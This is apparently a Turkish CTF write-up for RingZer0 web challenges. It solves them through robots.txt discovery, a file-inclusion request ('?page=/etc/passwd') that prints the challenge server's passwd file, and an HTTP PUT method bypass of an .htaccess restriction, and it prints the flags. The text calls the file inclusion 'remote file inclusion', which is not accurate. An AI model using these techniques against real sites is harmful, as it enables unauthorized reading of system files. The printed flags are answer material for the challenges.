 ```yaml
---
Authars: "Süleyman ERGEN, Hüseyin ALTUNKAYNAK"
Date: 09-03-2019
License: CC BY-NC-SA
---
```


# WEB

## Big Brother is watching

Bu soruda googlenin bile bu sayfayı bulamayacağını söylüyor. Bu demek oluyor ki robots.txt dosyasından dissallow edilmiş. Hemen [https://ringzer0ctf.com/robots.txt](https://ringzer0ctf.com/robots.txt) dizinine gidiyorum. Karşıma çıkan sayfa şu şekilde:

```text
User-agent: *
Disallow: /16bfff59f7e8343a2643bdc2ee76b2dc/
```

Bir tane dizinin izin verilmediğini görüyoruz. Hemen o dizine gidelim. [https://ringzer0ctf.com/16bfff59f7e8343a2643bdc2ee76b2dc/](https://ringzer0ctf.com/16bfff59f7e8343a2643bdc2ee76b2dc/)

İşte flag:

```text
FLAG-G5swO95w0c7R5fq0sa85nVs5dK49O04i
```

[comment]: # (## Hacking skill are optional)

## Looking for password file

Bu soruda bir link vermiş ve bir password dosyasına ihtiyacı olduğunu söylemiş. Linke gidiyorum.

```url
http://challenges.ringzer0team.com:10075/?page=lorem.php#
```

Linke gittiğimde "lorem ipsum ..." diye başlayan metinden başka bir şey yok. Metindende bir şey çıkmıyor. Fakat url de bir şey dikkatimi çekiyor. `?page=lorem.php` kısmı sanki parametre aldığı sayfayı çağırıyor gibi.

Bu linkte lorem.php sayfasını çağırmış yada içeriğini yazdırmış. O zaman bunu neden diğer dosyalar üzerinde yapamayalım? Diğer insanlardan gizlenmesi gereken bir dosyayı parametre versek ve sonra ...

Bu soru için linux sistemlerde kullancı bilgilerini saklayan `passwd` isimli dosyayı parametre olarak veriyorum.

```text
http://challenges.ringzer0team.com:10075/?page=/etc/passwd
```

Bu dosyanın içeriği şu şekilde.

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:FLAG-zH9g1934v774Y7Zx5s16t5ym8Z:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
sshd:x:101:65534::/var/run/sshd:/usr/sbin/nologin
syslog:x:102:105::/home/syslog:/bin/false
```

nobody kullanıcısının bilgilerinde flagin olduğunu görebiliriz. Bu açığa rfi (remote file inclusion) deniyor. Sunucudan dosya çekmeye yarayan bir açık. İnterneten araştırmanızı tavsiye ederim. İşte flag:

```text
FLAG-zH9g1934v774Y7Zx5s16t5ym8Z
```

## Area 51

Bu soruya ilk baktığımızda `.htaccess` ile birşeylerin engellendiğini söylüyor. Bunu okuduktan sonra yapmamız gereken ilk şey `.htaccess` in ne olduğunu araştırmak.

`.htaccess` web serwerlarda kullanılan bir dosyadır. Amacı web werver için birçok ayarlar yapmaktır. Bunlardan birkaçı kısıtlamalar ve giriş izinleridir.

Bu soruda ise bu dosya ile giriş iznimiz kısıtlanmış (restrict). Bu kısıtlamayı aşmak için internetten araştırmalarım sırasında şöyle bir şey buldum.

> Have you tried to use other HTTP Method than GET or POST to access the page ? Some misconfiguration in Apache could lead to accept request using method like PUT for example.

Bu demek oluyorki başka bir http metoru kullanmak bu soruda çözüm olabilir. Ben firefoxta geliştirici araçlarından ufak bir düzenleme ile GET metodunu **PUT** metoduna çevirdim. Ve sonuç:

![area-51](assets/web/area-51.png)

```text
FLAG-w4KRr557y626izv567758O52
```

## Headache